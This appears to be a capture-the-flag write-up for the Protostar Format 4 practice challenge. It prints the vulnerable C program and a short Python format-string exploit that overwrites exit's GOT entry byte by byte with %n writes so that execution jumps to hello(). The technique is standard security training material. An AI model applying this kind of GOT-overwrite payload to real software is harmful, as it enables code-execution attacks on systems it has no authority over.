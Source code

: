 # A-short-solution-to-Protostar-level-Format-4
## Lets first understand the c code
Here's the source code 
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void hello()
{
  printf("code execution redirected! you win\n");
  _exit(1);
}

void vuln()
{
  char buffer[512];

  fgets(buffer, sizeof(buffer), stdin);

  printf(buffer);

  exit(1);   
}

int main(int argc, char **argv)
{
  vuln();
}
```
As you can see the main function calls vuln() which calls fgets to take input in the buffer and the print it via printf() and *then calls the exit function*
Our aim is to redirect the code execution to hello(). This is an easy problem so I will only *very* briefly explain the basic idea behind the soution. 

Since there is a exit call, there is no use of overwriting the return address pointer on the stack.

To redirect the code execution, we simply go to procedure linkage table of the program which will lead us to the exit address on the Global offset table.
Now we exploit the format string exploit to overwrite it. 
Now the usual solutions you will see on internet(like on the live overflow website) involve overwriting it in two parts using format specifier %n and some little neat tricks with their modifiers.
Since the half hexadecimal address is a very large number in binary. We have to print thousands of blank spaces to achieve that overwrite.

What we can do instead is write the address in four passes writing 1 byte in each passes. We can significantly reduce the number of printed characters. 
There will be over flow in each write but that will get overwritten in the next pass and int the 4th pass the overflow will be to the next memory adress but since we care only about 4 bytes it'll work

NOte that the code will only run on protostarOS.
##Here's the actual python code to do so
```
HELLO = 0x080484b4
EXIT = 0x08049724
EXIT1 = 0x8049725
EXIT2 = 0x8049726
EXIT3 = 0x8049727
EXIT4 = 0x8049728
def pad(s):
   return s+"X"*(512-len(s))

exploit = ""
exploit+= "AAAA"
exploit+= struct.pack("I",EXIT)
exploit+= struct.pack("I",EXIT1)
exploit+= struct.pack("I",EXIT2)
exploit+= struct.pack("I",EXIT3)
exploit+= struct.pack("I",EXIT4)

exploit+= "i%4$155x%5$n%208x%6$n%128x%7$n%260x%8$n"

print pad(exploit)
```
